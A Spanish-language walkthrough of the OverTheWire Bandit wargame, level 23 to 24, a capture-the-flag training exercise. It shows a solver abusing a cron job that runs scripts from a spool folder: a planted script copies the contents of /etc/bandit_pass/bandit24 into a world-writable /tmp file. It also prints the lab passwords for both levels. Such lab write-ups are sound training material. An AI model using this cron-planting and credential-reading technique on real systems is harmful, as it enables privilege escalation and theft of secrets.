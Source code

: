 # Bandit Level 23 → Level 24



## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel 
- bandit23
- QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
``` bash

bandit23@bandit:~$ cd /etc/cron.d/
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ which bash
/usr/bin/bash
bandit23@bandit:/etc/cron.d$ ls -al
total 56
drwxr-xr-x   2 root root  4096 Feb 21 22:04 .
drwxr-xr-x 108 root root 12288 Feb 21 22:04 ..
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit15_root
-rw-r--r--   1 root root    62 Feb 21 22:02 cronjob_bandit17_root
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit22
-rw-r--r--   1 root root   122 Feb 21 22:03 cronjob_bandit23
-rw-r--r--   1 root root   120 Feb 21 22:03 cronjob_bandit24
-rw-r--r--   1 root root    62 Feb 21 22:03 cronjob_bandit25_root
-rw-r--r--   1 root root   201 Jan  8  2022 e2scrub_all
-rwx------   1 root root    52 Feb 21 22:04 otw-tmp-dir
-rw-r--r--   1 root root   102 Mar 23  2022 .placeholder
-rw-r--r--   1 root root   396 Feb  2  2021 sysstat
bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ mkdir /tmp/pass24
bandit23@bandit:/var/spool/bandit24/foo$ cd /tmp/pass24
bandit23@bandit:/tmp/pass24$ nano srcipt24.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ cat srcipt24.sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/pass24/contra24
bandit23@bandit:/tmp/pass24$ touch contra24
bandit23@bandit:/tmp/pass24$ ls
contra24  srcipt24.sh
bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rw-rw-r-- 1 bandit23 bandit23  0 Feb 26 01:22 contra24
-rw-rw-r-- 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ chmod 777 -R /tmp/pass24
bandit23@bandit:/tmp/pass24$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23  0 Feb 26 01:22 contra24
-rwxrwxrwx 1 bandit23 bandit23 66 Feb 26 01:21 srcipt24.sh
bandit23@bandit:/tmp/pass24$ cp srcipt24.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
bandit23@bandit:/tmp/pass24$ cat contra24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/pass24$
```


## Notas adicionales
| Comando | Descripción |
|------ | -------------- |
| which |  localiza los ficheros ejecutables mediante la variable de entorno PATH |
| touch | se usa principalmente para crear archivos vacíos y cambiar marcas de tiempo de archivos o carpetas |
| nano| es un editor de texto de línea de comandos fácil de usar para sistemas operativos Unix y **Linux**|

## Referencias
- [OverTheWire | Bandit (Nivel 23)](https://www.youtube.com/watch?v=lPtL7kqLyDA)
- [Comando which](https://nksistemas.com/comando-which-en-linux/#:~:text=Hoy%20veremos%20de%20que%20se,de%20las%20distribuciones%20GNU%2FLinux.)
- [Nano](https://extassisnetwork.com/tutoriales/nano-editor-de-texto-en-linux/)
